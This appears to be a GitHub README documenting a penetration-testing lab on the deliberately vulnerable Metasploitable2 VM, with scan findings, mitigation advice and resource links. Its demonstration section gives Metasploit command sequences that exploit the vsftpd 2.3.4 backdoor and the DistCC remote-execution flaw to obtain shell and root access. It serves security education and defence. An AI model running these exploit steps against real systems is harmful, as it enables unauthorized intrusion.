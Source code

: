 # Penetration Testing on Metasploitable2

## Overview
This project involves conducting penetration testing on the Metasploitable2 virtual machine using **Kali Linux**. The main objective was to identify, analyze and exploit vulnerabilities in web and network services while documenting findings and mitigation strategies.

## Tools Used
- **Metasploitable2**: A vulnerable Linux VM used as the target.
- **Kali Linux**: The attacker machine.
- **Nikto**: Web vulnerability scanner.
- **OpenVAS**: Network vulnerability assessment tool.
- **Metasploit Framework**: Exploitation tool.
- **Nmap**: Network scanner.


## 📊 Vulnerabilities Discovered

### **Web Vulnerabilities (Nikto Scan)**
| **Vulnerability** | **CWE ID** | **Description** | **Risk Level** |
|------------------|-----------|----------------|---------------|
| **Clickjacking** | CWE-1021 | X-Frame-Options header missing, allowing UI redress attacks. | Medium |
| **Directory Browsing** | - | Allows browsing of sensitive files that attackers can access. | Medium |

### **Network Vulnerabilities (OpenVAS Scan)**
| **Vulnerability** | **CVE ID** | **Description** | **Risk Level** |
|------------------|-----------|----------------|---------------|
| **DistCC Remote Code Execution (RCE)** | CVE-2004-2687 | Attackers can execute arbitrary commands remotely. | High |
| **vsftpd 2.3.4 Backdoor** | CVE-2011-2523 | Backdoor in vsftpd allows unauthorized root access. | Critical |
| **OpenSSL MITM Attack** | CVE-2014-0224 | SSL/TLS vulnerability allowing encrypted traffic interception. | High |

---

## 💻 Exploitation Demonstrations
### **1️⃣ Exploiting vsftpd 2.3.4 Backdoor**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <Metasploitable_IP>
exploit
whoami  # Confirms root access


### 2️⃣ Exploiting DistCC RCE
msfconsole
use exploit/unix/misc/distcc_exec
set RHOST <Metasploitable_IP>
set LHOST <Attacker_IP>
exploit
whoami  # Confirms access

```

## 🔐 Security Recommendations
To mitigate these vulnerabilities, the following security measures should be implemented:

### For Web Vulnerabilities:
✅ Enable X-Frame-Options to protect against clickjacking.  
✅ Disable directory listing in Apache/Nginx configurations.  
✅ Implement Content Security Policy (CSP) to control how resources are loaded.  

### For Network Vulnerabilities:
✅ Patch vsftpd 2.3.4 to the latest version.  
✅ Disable unused services like DistCC to minimize attack surface.  
✅ Use strong encryption (TLS 1.2/1.3) instead of outdated OpenSSL versions.  

### General Recommendations:
✅ Use a Web Application Firewall (WAF).  
✅ Regularly scan for vulnerabilities using OpenVAS and Nikto.  
✅ Implement strict access controls and monitoring.  

---

## Project Structure
Penetration-Testing-Metasploitable2/
│── README.md  # Project Documentation
│── Final_MetasplotableReport.pdf  # Full project report
│── screenshots/
│   ├── nikto_scan.png
│   ├── openvas_results.png
│   ├── metasploit_exploit.png
│── scripts/
│   ├── metasploit_vsftpd_exploit.rc


## Resources
Here are some useful resources for further learning:

- 📌 [Metasploitable2 VM](https://sourceforge.net/projects/metasploitable/)
- 📌 [Kali Linux](https://www.kali.org/)
- 📌 [Metasploit Framework](https://www.rapid7.com/products/metasploit/)
- 📌 [Nikto Web Scanner](https://cirt.net/nikto2)
- 📌 [OpenVAS Scanner](https://www.openvas.org/)




